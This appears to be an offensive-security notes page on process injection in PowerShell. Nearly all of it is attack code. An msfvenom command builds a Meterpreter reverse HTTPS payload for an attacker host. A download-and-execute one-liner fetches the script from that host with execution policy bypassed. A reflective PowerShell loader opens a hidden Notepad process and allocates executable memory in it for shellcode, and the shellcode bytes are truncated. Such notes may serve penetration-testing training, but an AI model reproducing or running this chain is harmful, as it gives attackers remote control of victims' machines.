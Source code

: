 ## Process Injection in PowerShell

### run3.txt

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

```bat
powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.119.120/run3.txt'))
```

```pwsh
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

function getDelegateType {

	Param (
		[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
		[Parameter(Position = 1)] [Type] $delType = [Void]
	)

	$type = [AppDomain]::CurrentDomain.
    DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), 
    [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
      DefineDynamicModule('InMemoryModule', $false).
      DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', 
      [System.MulticastDelegate])

  $type.
    DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).
      SetImplementationFlags('Runtime, Managed')

  $type.
    DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).
      SetImplementationFlags('Runtime, Managed')

	return $type.CreateType()
}

$id = (Start-Process Notepad -passthru -WindowStyle hidden).ID

$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), (getDelegateType @([UInt32], [Bool], [Int]) ([IntPtr]))).Invoke(0x001F0FFF, $false, $id)
        
$addr = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAllocEx), (getDelegateType @([IntPtr], [IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke($hProcess, [IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc,0xe8,0x82,0x0,0x0,0x0...
```